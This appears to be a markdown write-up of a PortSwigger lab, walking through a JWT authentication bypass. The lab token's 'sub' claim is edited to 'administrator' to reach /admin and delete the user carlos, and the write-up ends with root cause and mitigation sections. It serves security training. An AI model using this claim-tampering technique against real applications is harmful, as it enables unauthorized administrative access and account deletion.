



# Bypassing JWT Authentication through Unvalidated Signatures

## Lab Information

**Classification:** JWT Attacks  
**Difficulty:** Apprentice  
**Lab URL:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature

## Objective

Target an insecure JWT implementation where signature verification is skipped by the backend. Adjust the JWT claims to impersonate the admin user, gain entry to the administrative panel, and remove the user `carlos`.

---

## Vulnerability Analysis

Session tracking is handled via JSON Web Tokens (JWTs). However, the application logic does not validate the signature of the incoming JWT before accepting the claims inside its payload. This allows an attacker to alter the claims and elevate their access rights without knowledge of the signing secret key.

---

## Exploitation Steps

### 1. Logging In with Valid User

Authenticate to the store using these credentials:

```text
Username: wiener
Password: peter
```

Open the account settings page and capture the request containing the session JWT.

---

### 2. Examining the JSON Web Token

Locate the JWT in the cookie header of the captured request within Burp Suite. Decode the token to view its fields, noting the payload format:

```json
{
  "iss": "portswigger",
  "exp": 1782074705,
  "sub": "wiener"
}
```

### Screenshot



---

### 3. Querying the Admin Console

Modify the request target path:

```http
GET /admin HTTP/2
```

Send this request using the unchanged user JWT. The server responds with:

```http
401 Unauthorized
```

This confirms that the `wiener` account is barred from admin access.

### Screenshot


---

### 4. Modifying Token Claims

Edit the token payload's subject claim:

From:

```json
"sub": "wiener"
```

To:

```json
"sub": "administrator"
```

Since signature validation is omitted by the application, the modified token is treated as valid.

---

### 5. Gaining Administrative Access

Transmit the request with the modified JWT again:

```http
GET /admin HTTP/2
```

The server processes the updated claim and grants access to the administrative dashboard.

### Screenshot



---

### 6. Deleting the Target User

Locate the user deletion endpoint:

```http
/admin/delete?username=carlos
```

Submit the request. The application deletes the target account.

### Screenshot



---

### 7. Confirming Lab Resolution

After removing the `carlos` account, the lab is marked as solved.

### Screenshot


---

## Root Cause Analysis

The application trusts JWT claims without validating the token signature. This permits the manipulation of sensitive claims like:

```json
{
  "sub": "administrator"
}
```

without needing to sign the token with the correct cryptographic key.

---

## Impact Assessment

An attacker can exploit this flaw to:

- Perform privilege escalation.
- Impersonate arbitrary users.
- Obtain administrative privileges.
- Bypass session authentication controls.
- Carry out unauthorized operations.

---

## Mitigation and Security Controls

1. Always enforce signature validation on all incoming JWTs.
2. Reject tokens that are not cryptographically signed.
3. Reject tokens where payload validation fails.
4. Utilize reputable, secure JWT parsing libraries.
5. Implement server-side role validation checks separate from JWT claims.

---

## Key Takeaways

JWT contents must never be trusted without validating the token signature. Skipping signature validation allows attackers to forge administrative identities and gain unauthorized access.